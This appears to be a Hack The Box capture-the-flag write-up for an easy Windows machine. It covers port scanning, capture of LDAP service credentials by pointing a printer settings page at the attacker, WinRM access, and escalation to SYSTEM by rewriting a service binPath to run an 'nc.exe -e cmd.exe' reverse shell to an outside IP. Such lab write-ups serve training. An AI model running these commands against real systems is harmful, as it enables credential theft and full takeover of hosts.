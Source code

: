 ```yaml
---
date: 2025-10-21
categories: [Windows, Easy]
---
```


<img width="300" height="300" alt="Union" src="https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/defa149ea7e259a4709a03a5825e970d.png" />

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [MrR3boot](https://app.hackthebox.com/users/13531)    | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Windows   |

---






## Enumeration

- I began with a full TCP port scan, followed by a service and version detection scan on the discovered open ports

	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.108 -oG scan
	/opt/extractports scan
	nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49697 -sCV 10.10.11.108 -oN ports
	```

	<img width="1740" height="775" alt="image" src="https://github.com/user-attachments/assets/1d2fa3b5-8278-44b5-8fa8-4f54aaca7898" />

-  I found the domain `return.local` and I add it to the file in the `hosts` file.

- Using `dig`, I enumerated subdomains:
	
	```python
	dig any @10.10.11.108 return.local
	```

- From the scan, I discovered the domain `return.local` and added it to my `/etc/hosts` file.
## Initial Access (Web Enumeration)

- Within the website’s settings, I found a configuration containing a server address, port, username, and password.

- I modified the server address to point to my machine and the port to `80`. I set up a local web service to capture incoming requests and clicked the update button. This exposed the credentials in plaintext.

- I verified the credentials using `netexec`:

	```python
	netexec ldap 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
	```

- With valid credentials, I connected via WinRM and retrieved the first flag:

	```python
	evil-winrm  -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
	```

## Privilege Escalation 

- I enumerated the user’s permissions and group memberships:

	```python
	whoami /all
	```

- Being a member of the `Server Operators` group, I exploited the ability to modify a service binary path. I configured the `VMTools` service to execute a reverse shell:

	```python
	sc.exe config VMTools binPath="C:\Users\aarti\Documents\nc.exe -e cmd.exe 192.168.1.205 1234"
	```

- I then restarted the service:

	```python
	sc.exe stop VMTools
	sc.exe start VMTools
	```

- This granted me a shell as **NT AUTHORITY\SYSTEM**, allowing me to retrieve the root flag.
